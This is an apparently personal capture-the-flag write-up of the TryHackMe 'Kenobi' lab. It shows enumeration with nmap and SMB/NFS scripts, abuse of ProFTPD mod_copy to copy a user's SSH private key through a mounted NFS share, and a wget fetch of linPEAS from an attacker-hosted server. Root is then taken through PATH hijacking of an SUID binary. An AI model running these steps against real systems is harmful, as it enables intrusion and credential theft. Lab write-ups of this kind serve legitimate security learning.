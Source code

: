 # Kenobi

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

<br>

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

<br>

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

<br>

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

<br>

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

<br>

Using the command ```ls``` revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

<br>

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

<br>

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

<br>

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

<br>

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">

Searchsploit gave us 3 possible exploits that could be used.

<br>

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

<br>

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">

<br>

Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">

<br>

After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 <br>

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

<br>

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

<br>

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">

<br>

Upon running the menu binary, we come across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**

<img style="float: left;" src="screenshots/screenshot10.png">

From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

<br>

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">

<br>

**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**





